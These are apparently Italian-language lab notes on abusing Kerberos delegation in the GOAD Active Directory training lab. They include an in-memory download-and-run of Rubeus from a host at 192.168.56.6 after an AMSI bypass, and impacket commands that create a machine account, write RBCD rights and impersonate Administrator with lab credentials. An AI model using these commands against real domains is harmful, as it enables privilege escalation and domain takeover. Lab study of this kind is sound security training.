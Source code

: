 ### **UNCOSTRAINED DELEGATIONS**

Per trovarle all'interno di BloodHound puoi selezionare la query precompilata o lanciare la seguente
```
MATCH (c {unconstraineddelegation:true}) return c
```
![[Pasted image 20230911104551.png]]
Per exploitarla accediamo al pc con uno degli account ottenuti precedentemente
```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
e bypassiamo l'amsi come abbiamo già fatto
Poi avviamo Rubeus sulla macchina
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```
![[Pasted image 20230911105711.png]]
[GOAD - part 10 - Delegations | Mayfly (mayfly277.github.io)](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)
Il resto dell'attacco non posso farlo perchè non mi funziona rubeus
### **CONSTRAINED DELEGATION**
Puoi trovare tutte le constrained delegation con impacket
```bash
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```
![[Pasted image 20230911111407.png]]
*Con protocol transition*

Per exploitarlo isogna prima chiedere un TGT per l'utente e poi esguire S4U2Self seguito d S4U2Proxy per impersonare un admin
```bash
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230911111655.png]]
Puoi loggare dopo con wmixec

### **Resource Based Constrained Delegation**
Può essere abusato modificando msDS-AllowedToActOnBehalfOfOtherIdentity.
Per esempio può essere effettuato quando hai genericAll o genericWrite ACl su un computer
![[Pasted image 20230911114240.png]]
Creiamo un computer X
```bash
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```
aggiungo la delegation sul target da X (rbcd$)
```bash
impacket-rbcd -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```
Ora che abbiamo la delegazione possiamo fare S4U
```bash
impacket-getST -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'
```
![[Pasted image 20230911115059.png]]
ed accedere con wmiexec
